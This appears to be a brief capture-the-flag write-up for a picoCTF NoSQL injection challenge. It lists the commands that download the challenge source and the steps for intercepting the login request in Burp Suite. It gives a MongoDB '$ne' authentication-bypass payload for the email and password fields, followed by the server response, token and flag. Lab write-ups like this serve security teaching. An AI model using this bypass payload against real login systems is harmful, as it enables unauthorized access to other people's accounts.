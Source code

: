 # No Sql Injection

```
wget https://artifacts.picoctf.net/c_atlas/37/app.tar.gz
tar -xvzf app.tar.gz 
```
- open the burpsuit and login with any credentioal and interupt the network and send to repeater and edit this by :
```  
"email":"{\"$ne\": \"null\"}",
"password":"{\"$ne\": \"null\"}"
```
{"success":true,"email":"picoplayer355@picoctf.org","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzY3YjFhM2M4fQ==","firstName":"pico","lastName":"player"}

"token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzY3YjFhM2M4fQ=="

picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_67b1a3c8}

#### nonsql injection trick 
- User:{"$ne":"null"}  Password: {"$ne":"null"}
